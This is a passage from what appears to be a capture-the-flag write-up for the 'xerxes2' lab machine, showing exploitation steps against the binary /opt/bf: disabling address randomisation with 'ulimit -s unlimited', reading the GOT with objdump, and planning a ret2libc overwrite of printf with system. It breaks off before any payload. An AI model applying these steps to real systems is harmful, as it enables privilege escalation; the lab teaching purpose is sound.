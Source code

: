 Thankfully, since this is a x86 (32bit) OS, its quite trivial to disable this (sort of) with `ulimit -s unlimited`

```bash
delacroix@xerxes2:~$ ulimit -s unlimited

delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0x4001e000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0x40026000)
    /lib/ld-linux.so.2 (0x40000000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0x4001e000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0x40026000)
    /lib/ld-linux.so.2 (0x40000000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0x4001e000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0x40026000)
    /lib/ld-linux.so.2 (0x40000000)
delacroix@xerxes2:~$
```

The memory locations are now static :) With that done, lets have a look at what pointer we would like to override, and then where we should be overwriting it to. We first take a look at the Global Offset Table:

```bash
delacroix@xerxes2:~$ objdump -R /opt/bf

/opt/bf:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049a38 R_386_GLOB_DAT    __gmon_start__
08049a48 R_386_JUMP_SLOT   printf
08049a4c R_386_JUMP_SLOT   getchar
08049a50 R_386_JUMP_SLOT   __gmon_start__
08049a54 R_386_JUMP_SLOT   exit
08049a58 R_386_JUMP_SLOT   __libc_start_main
08049a5c R_386_JUMP_SLOT   memset
08049a60 R_386_JUMP_SLOT   putchar


delacroix@xerxes2:~$
```

Here, we will choose to override the `printf` functions pointer. This is at 0x08049a48. So, this address will have the location of our _evil code_. But now, how do we know where the evil code is and _what_ is it? Again, this was another interesting thing that had me researching for a very long time. In the end, it came to light that there is such a thing as [ret2libc](http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf). The basic idea here is that we override the pointer for `printf` to `system` with a argument. I highly recommend you read [this pdf](http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf) for a proper explanation on what exactly this means.

The only thing that is left to determine is where `system` is in memory. Luckily this is also pretty easy to find out. Fire up `gdb`, run the binary and `print system` to get the address:
